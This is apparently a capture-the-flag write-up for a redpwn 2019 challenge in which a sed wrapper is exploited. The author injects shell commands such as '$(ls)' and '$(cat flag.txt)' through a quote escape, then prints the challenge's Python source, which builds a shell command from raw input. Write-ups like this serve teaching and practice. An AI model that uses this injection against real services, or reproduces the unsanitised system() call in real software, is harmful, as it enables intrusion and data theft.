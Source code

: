 In this misc challenge with description:

```
I'm not really sure what I sed to this program, so it fixes it for me!

nc chall2.2019.redpwn.net 6004
```

We are prompted three times for some input related to sed usage, let's put random things

```
What you thought you sed
abcdef
What you aren't sure you sed
b
What you actually sed
c
You actually said
accdef
```

It seems that it asks for a string, then a pattern to substitute and the string to substitute with. Syntax of the command could be similar to:

```bash
echo $1 | sed 's/$2/$3/g'
```

Let's try to get a RCE using $(command) syntax:

```
What you thought you sed
$(ls)
What you aren't sure you sed
a
What you actually sed
a
You actually said
$(ls)
```

He is treating the input as a properly string, let's try to escape it using quotes:

```
What you thought you sed
'$(ls)'
What you aren't sure you sed
a
What you actually sed
a
You actually said
bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin sed.py srv sys tmp usr var
```

It works! To get the flag we just need to cat the corresponding file

```
What you thought you sed
'$(cat flag.txt)'
What you aren't sure you sed
a
What you actually sed
a
You actually said
flag{th4ts_wh4t_sh3_sed}
```

P.S: Let's have fun dumping the software used for this challenge using $(cat sed.py), the result is:

```python
from os import system

inp = input("What you thought you sed")
rep = '/' + input("What you aren't sure you sed") + '/'
new = input("What you actually sed")
cmd = 's' + rep + new + "/g"

if "'" not in new:
    cmd += "'"
    
print(cmd)
print("You actually said")
system("echo '" + inp + "' | sed '" + cmd)
```
